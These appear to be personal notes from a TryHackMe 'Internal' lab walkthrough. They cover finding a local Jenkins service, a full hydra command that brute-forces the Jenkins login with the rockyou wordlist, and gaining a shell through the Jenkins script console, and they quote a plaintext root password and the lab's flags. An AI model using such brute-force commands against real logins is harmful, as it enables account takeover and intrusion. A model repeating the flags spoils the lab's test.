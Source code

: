 #userflag = THM{int3rna1_fl4g_1}


now we find a txt file says : Internal Jenkins service is running on 172.17.0.2:8080
so let's try to do a [[Commands]]
and we are in there is a http server running jenkins 
running nmap on local host 127.0.0.1 and specifying port 8888

 8888/tcp open  http    Jetty 9.4.30.v20200611
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.30.v20200611)
_http-title: Site doesn't have a title (text/html;charset=utf-8).

we kinda got nothing from the search but we can try to brute force the jenkis and using default admin username admin 
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
and we let it roll
after getting shit ton of wrong passwords and wasting too much time with hydra cos it's shit tool we used OWASP zap attack mode to crack the password with fuzzing tool 
and we got [[00 Progress/Boxes/THM/Internal/04 Creds]]!! 

then we went to Script tool in jenkins and excuted a [[Java_rev]]
in /opt there is a note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
now ssh to the machine and we are root!
#rootflag : THM{d0ck3r_d3str0y3r}
[[00 Progress/Boxes/THM/Internal/05 Conclusion]]

